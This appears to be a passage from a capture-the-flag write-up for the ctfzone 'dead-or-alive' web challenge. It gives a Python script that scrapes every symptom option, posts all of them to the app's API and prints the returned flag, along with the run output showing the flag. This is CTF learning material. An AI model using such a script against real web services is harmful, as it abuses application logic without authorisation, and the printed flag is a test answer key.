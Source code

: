 ![](https://hackmd.io/_uploads/H1DS5mwhh.png)

Okay, so we only need to provide the required 32 symptoms, and we can receive the description of the "Death" disease containing the flag. `/api/setSymptoms`



### Script

```python
import requests
import random
import string

from bs4 import BeautifulSoup

url = "http://dead-or-alive.ctfz.one"

def getSymptom(html):
    symptom_data = []
    
    soup = BeautifulSoup(html, 'html.parser')
    select_element = soup.find('select', {'id': 'selectSymptom'})
    option_elements = select_element.find_all('option')
    
    for option in option_elements:
        symptom_data.append(option['value'])
    
    return symptom_data

with requests.Session() as session:
    ssn = ''.join(random.choices(string.ascii_letters + string.digits, k=3))
    r = session.get(url + '/')
    all_symptom = getSymptom(r.text)
    
    session.post(url + '/api/setUser', json={"ssn":ssn,"fullname":"abc90","dateOfBirth":"1/1/1999","weight":"100"})
    session.post(url + '/api/setSymptoms', json={"ssn":ssn,"symptoms": all_symptom }) ## add all symptom
    r = session.post(url + '/api/getDiagnosis', json={"ssn":ssn} )
    json_data = r.json()
    for item in json_data["message"]:
        if "You receive a posthumous flag" in item["description"]:
            flag = item["description"]
            print(flag)
    
```

Result:
```bash
┌──(taiwhis㉿kali)-[~/zone/dead-or-alive]
└─$ python 3.py       
You are dead, You receive a posthumous flag: ctfzone{C4n_Th3_D34D_Pl4y_CTF?}

```
